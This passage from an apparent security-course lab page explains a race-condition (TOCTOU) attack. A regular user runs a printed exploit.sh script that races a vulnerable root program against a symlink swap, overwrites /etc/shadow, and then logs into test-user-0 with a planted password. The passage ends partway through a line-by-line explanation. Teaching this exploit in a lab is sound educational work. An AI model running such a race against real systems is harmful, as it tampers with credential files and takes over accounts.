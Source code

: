 ## Login to target user account

### Task 11

`TASK :`{:.info} Login to user account `test-user-0` with password `00000`
Now you can login to `test-user-0` account with <span style="color:#f77729;"><b>password</b></span>: `00000` instead of your originally set password:

<img src="/50005/assets/images/lab2/20.png"  class="center_full"/>

We have <span style="color:#f77729;"><b>successfully</b></span> changed a supposedly <span style="color:#f7007f;"><b>protected</b></span> `/etc/shadow` file while logged in as a <span style="color:#f77729;"><b>regular user</b></span> (ubuntu in the example above).

## What Happened?

Open `exploit.sh` file inside `/User/` directory:

```bash
#!/bin/sh
# exploit.sh

# note the backtick ` means assigning a command to a variable
OLDFILE=`ls -l /etc/shadow`
NEWFILE=`ls -l /etc/shadow`

# continue until THE ROOT_FILE.txt is changed
while [ "$OLDFILE" = "$NEWFILE" ]
do
    rm -f userfile.txt
    # create userfile again
    cp userfile_original.txt userfile.txt

    # the following is done simultanously
    # if a command is terminated by the control operator &, the shell executes the command in the background in a subshell.
    # the shell does not wait for the command to finish, and the return status is 0.
    # on the other hand, commands separated by a ; are executed sequentially; the shell waits for each command to terminate in turn.
    # the return status is the exit status of the last command executed.
    ../Root/vulnerable_root_prog userfile.txt test-user-0 & ./symlink userfile.txt /etc/shadow & NEWFILE=`ls -l /etc/shadow`

done

echo "SUCCESS! The root file has been changed"
```

The first two lines create a variable called `OLDFILE` and `NEWFILE`, containing the file information of `/etc/shadow`.

```
OLDFILE=`ls -l /etc/shadow`
NEWFILE=`ls -l /etc/shadow`
```
